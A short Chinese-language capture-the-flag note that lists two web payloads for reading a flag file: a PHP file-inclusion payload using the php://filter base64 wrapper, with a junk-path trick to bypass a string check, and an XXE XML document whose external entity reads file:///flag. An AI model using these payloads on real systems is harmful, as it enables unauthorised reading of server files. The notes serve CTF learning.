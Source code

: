 1.文件包含漏洞利用PHP伪协议读取flag:

**php://filter:/read=convert.base64-encode/resource=flag.php**

读取过程中可以添加无效路径来满足路径中必须包含指定字符串的要求(例如**payload:/index.php?file=php://filter/emoji/read=convert.base64-encode/resource=index**)

2.XXE利用**file://**协议读取flag:

```xml
<?xml version='1.0' encoding='utf-8'?>
<!DOCTYPE diary[<!ENTITY content SYSTEM "file:///flag" >]>#引入了一个外部实体,在使用这个外部实体的值时,会将外部实体的值输出,也就是在靶机上读取"file:///flag"的值
<diary>
    <date>%s</date>
    <feeling>%s</feeling>
    <content>&content;</content>#调用了这个外部实体(注意有分号)
</diary>
```

